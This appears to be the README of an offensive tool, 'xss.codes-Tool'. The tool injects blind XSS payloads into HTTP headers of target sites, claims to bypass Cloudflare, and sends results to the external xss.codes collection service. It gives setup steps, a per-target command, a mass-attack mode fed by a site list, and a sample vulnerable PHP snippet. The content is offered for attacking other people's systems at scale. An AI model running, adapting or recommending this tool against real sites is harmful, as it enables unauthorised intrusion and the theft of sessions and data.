 ### xss.codes-Tool
https://xss.codes Http Header XSS Attacker

### What does this do?

Allows you to send XSS payloads to HTTP Header values (with Cloudflare Bypass)

For use ; You must have an https://xss.codes account!


You can Exploiting The : 

*IP Loggers

*Useragent Loggers

*Webshell Log Panels

*Malware Stealer Panels


### Example Vulnerable PHP code:

```
<?

$sakso = $_SERVER["REMOTE_ADRR"];

echo "ip logged :".$sakso

?>
```

### Usage

1)- Open https://xss.codes/register page and create account (The domain name you will enter while registering is the page reserved for you. From xss.codes eg : xss.codes/s/userdomainname)

2)- Follow this command list ;

```
$ git clone https://github.com/0x00fy/xss.codes-Tool/

$ cd xss.codes-Tool

$ python xss.py -t [TARGET] -u [xsscodes user domainname]
```


### Mass : 

```
python mass.py -l sitelist.txt -u your XSS.CODES User Domainname
```
